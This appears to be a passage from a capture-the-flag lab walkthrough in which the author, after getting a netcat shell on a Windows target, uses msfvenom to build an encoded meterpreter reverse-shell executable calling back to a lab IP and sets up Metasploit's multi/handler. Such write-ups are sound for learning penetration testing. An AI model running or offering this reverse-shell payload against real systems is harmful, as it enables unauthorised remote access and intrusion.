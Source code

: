 ![netcat shell spawned](shell_established.png)

`user.txt` can be found in `C:\Users\bruce\desktop`.

## switching shells

The goal here is to switch to a meterpreter shell to make privilege escalation easier.

We can use msfvenom to generate a new shell.

```
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.136.172 LPORT=4444 -f exe -o shell.exe
``` 

Then we use `exploit/multi/handler`.

![handler set-up](set_up_handler.png)
